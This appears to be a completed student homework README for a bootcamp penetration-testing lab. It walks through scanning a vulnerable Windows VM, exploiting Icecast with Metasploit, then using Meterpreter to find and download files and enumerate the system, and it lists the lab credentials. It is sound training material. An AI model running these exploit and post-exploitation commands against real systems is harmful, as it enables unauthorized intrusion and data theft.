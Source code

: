 ## Activity: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: ```nmap -sV 192.168.0.20```

![nmap](images/nmap.jpg)

       
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: ```searchsploit icecast```

![searchicecast](images/searchsploit.jpg)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: ```msfconsole```
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: ```use exploit/windows/http/icecast_header```

![useicecast](images/useicecast.jpg)
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: ```use 0```
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: ```set RHOSTS 192.168.0.20```
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: ```exploit```

     - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: ```search -f *secretfile*.txt```

![question6](images/question6.jpg)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: ```search -f *recipe*.txt```
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: ```download /users/ieuser/documents/Drinks.recipe.txt```

![question7](images/question7.jpg)
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

```run post/multi/recon/local_exploit_suggester```

![question8](images/question8.jpg)
 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: ```run post/windows/gather/enum_logged_on_users```

  ![A](images/A.jpg)
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: ```shell```

  ![B](images/B.jpg)
 
C. Run the command that displays the target's computer system information:

   > Answer: ```systeminfo```

   ![C](images/C.jpg)



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
